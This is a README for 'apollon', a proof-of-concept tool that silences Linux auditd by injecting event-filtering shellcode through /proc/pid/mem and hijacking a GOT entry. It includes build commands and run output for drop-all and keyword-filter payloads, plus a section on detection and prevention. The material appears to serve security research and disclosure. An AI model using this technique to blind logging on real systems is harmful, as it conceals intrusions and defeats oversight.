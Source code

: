 ### apollon

----

*apollon* is a proof of concept tool for blindsiding *auditd*. It works
by patching the *global offset table* (*GOT*) of *auditd* via `/proc/pid/mem`
and replacing the pointer to a *libc* function with a pointer to event
filtering shellcode.

For patching *auditd* memory, root privileges are required. This method
of tampering with *auditd* events have proven to be very stealthy. Monitoring
`/proc` using *auditd* is not that easy and no suspicious events have been
observed when running *apollon* against some popular *auditd* rule sets.

More technical details as well as detection and prevention guidance can be
found within our blog post [blindsiding auditd for fun and profit](https://code-white.com/blog/2023-08-blindsiding-auditd-for-fun-and-profit/).


### Usage

----

Since *apollon* is only a proof of concept, the supported functionalities
are limited. *apollon* ships two different shellcodes that can be
injected into *auditd*. The first one - [filter-all.asm](src/filter-all.asm) -
filters all incoming events and completely blindsides *auditd*. With this
payload, the only required argument is the *PID* of the *auditd* process:

```console
[root@auditd apollon]$ make apollon-all-x64
gcc -c src/procmem.c -o procmem.o -O3 -I include -w -ldl
gcc -c src/utils.c -o utils.o -O3 -I include -w -ldl
nasm src/filter-all.asm -o shellcode-all.bin -f bin
python3 generate-header.py shellcode-all.bin
gcc -D FILTER_ALL -c src/apollon.c -o apollon-all-x64.o -O3 -I include -w -ldl
gcc procmem.o utils.o apollon-all-x64.o -o dist/apollon-all-x64 -O3 -I include -w -ldl
strip --strip-unneeded dist/apollon-all-x64

[root@auditd apollon]$ ./dist/apollon-all-x64 427
[+] Found data segment of 427 at 0x7482dd37d000
[+] Found libc base address of 427 at 0x7482dd04d000
[+] Found offset of 'recvfrom' in libc at e7cc0
[+] Searching for pattern 0x7482dd134cc0 in data segment of 427
[+] Data segment is 2000 bytes long.
[+] Found 'recvfrom' in 427 at 0x7482dd37dea0
[+] Preparing shellcode...
[+] Replaced 1 occurences of recvfrom.
[+] Searching codecave for 23 byte shellcode...
[+] Found code cave in 427 at 0x62bddc2bfaf1
[+] Wrtiting shellcode to codecave.
[+] Replacing 'recvfrom' GOT entry with shellcode addr.
[+] auditd patched successfully.
```

Afterwards, no more events should be logged by *auditd*. The second shellcode -
[filter-selective.asm](/src/filter-selective.asm) - filters events based on a
keyword. With this payload, a second argument is expected that will be used as
a filter for *auditd* events. Each event containing the pattern will be dropped:

```console
[root@auditd apollon]$ make apollon-selective-x64
gcc -c src/procmem.c -o procmem.o -O3 -I include -w -ldl
gcc -c src/utils.c -o utils.o -O3 -I include -w -ldl
nasm src/filter-selective.asm -o shellcode-selective.bin -f bin
python3 generate-header.py shellcode-selective.bin
gcc -c src/apollon.c -o apollon-selective-x64.o -O3 -I include -w -ldl
gcc procmem.o utils.o apollon-selective-x64.o -o dist/apollon-selective-x64 -O3 -I include -w -ldl
strip --strip-unneeded dist/apollon-selective-x64

[root@auditd apollon]$ ./dist/apollon-selective-x64 427 pid=1337
[+] Found data segment of 427 at 0x72e3428a4000
[+] Found libc base address of 427 at 0x72e342574000
[+] Found offset of 'recvfrom' in libc at e7cc0
[+] Searching for pattern 0x72e34265bcc0 in data segment of 427
[+] Data segment is 2000 bytes long.
[+] Found 'recvfrom' in 427 at 0x72e3428a4ea0
[+] Preparing shellcode...
[+] Replaced 2 occurences of recvfrom.
[+] Found strstr in 427 at 0x72e342600a30
[+] Replaced 1 occurences of strstr.
[+] Found strtoul in 427 at 0x72e34259a9c0
[+] Replaced 2 occurences of strtoul.
[+] Found code cave for pattern matching in 427 at 0x5fec525332ad
[+] Wrtiting 'pid=1337' to codecave.
[+] Replaced 1 occurences of matcher pattern.
[+] Searching codecave for 264 byte shellcode...
[+] Found code cave in 427 at 0x5fec5254baf1
[+] Wrtiting shellcode to codecave.
[+] Replacing 'recvfrom' GOT entry with shellcode addr.
[+] auditd patched successfully.
```

After the above patch, all events containing `pid=1337` will be dropped. Since
*auditd* events usually consist out of multiple audit messages, each audit message
sharing the same event ID as the initially filtered message is also dropped. 


### Detection

----

A detailed technical discussion of *apollon* and some possible detection methods
are discussed within our blog post [blindsiding auditd for fun and profit](https://code-white.com/blog/2023-08-blindsiding-auditd-for-fun-and-profit/).
In this README, we only provide an overview of possible detection methods:

1. Dynamically created *auditd* rules can be used to monitor `/proc/pid/mem` of critical processes.
  The following listing shows how this can be achieved for *auditd* by applying an adjustment to the
  *auditd unit file*:

    ```systemd
    [Service]
    Type=forking
    PIDFile=/run/auditd.pid
    ExecStart=/sbin/auditd
    ExecStartPost=-/sbin/augenrules --load
    # The following line monitors write access to /proc/pid/mem of auditd
    ExecStartPost=/bin/bash -c "auditctl -w /proc/$(cat /run/auditd.pid)/mem -p wa -k process-injection"
    ```

2. Monitor the *auditd* daemon for error messages. Simply clearing the netlink output
  buffer as done by *apollon* causes error messages as shown below:

    ```
    Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
    Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
    Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
    Jul 31 13:25:02 auditd auditd[427]: Netlink message from kernel was not OK
    ```

3. Look for missing event IDs in *auditd* logs. If certain event IDs are skipped, this
  may indicate tampering. The listing below shows an *auditd* log where one event was
  dropped by *apollon*:

    ```
    type=SYSCALL msg=audit(1690788664.304:980): arch=c000003e syscall=257 success=yes exit=3 a0=ffffff9c a1=7ffe5e584772 a2=0 a3=0 items=1 ppid=1022 pid=1226 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts1 ses=4294967295 comm="cat" exe="/usr/bin/cat" key="etcpasswd"ARCH=x86_64 SYSCALL=openat AUID="unset" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
    type=PATH msg=audit(1690788664.304:980): item=0 name="/etc/shadow" inode=270575 dev=ca:03 mode=0100000 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
    type=PROCTITLE msg=audit(1690788664.304:980): proctitle=636174002F6574632F736861646F77
    type=SYSCALL msg=audit(1690788671.579:982): arch=c000003e syscall=257 success=yes exit=3 a0=ffffff9c a1=7ffc22a71772 a2=0 a3=0 items=1 ppid=1022 pid=1228 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts1 ses=4294967295 comm="cat" exe="/usr/bin/cat" key="etcpasswd"ARCH=x86_64 SYSCALL=openat AUID="unset" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
    type=PATH msg=audit(1690788671.579:982): item=0 name="/etc/shadow" inode=270575 dev=ca:03 mode=0100000 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
    type=PROCTITLE msg=audit(1690788671.579:982): proctitle=636174002F6574632F736861646F77
    ```

4. If possible, restrict *ptrace* permissions e.g. by using a *Linux Security Module*.
  [Yama](https://www.kernel.org/doc/html/v4.15/admin-guide/LSM/Yama.html) represents
  one option to globally prevent access to `/proc/pid/mem` by configuring a restrictive
  `ptrace_scope`. If globally disabling *ptrace* is not an option, you may can prevent
  *ptrace* access to critical processes by writing a custom *Linux Security Module*.
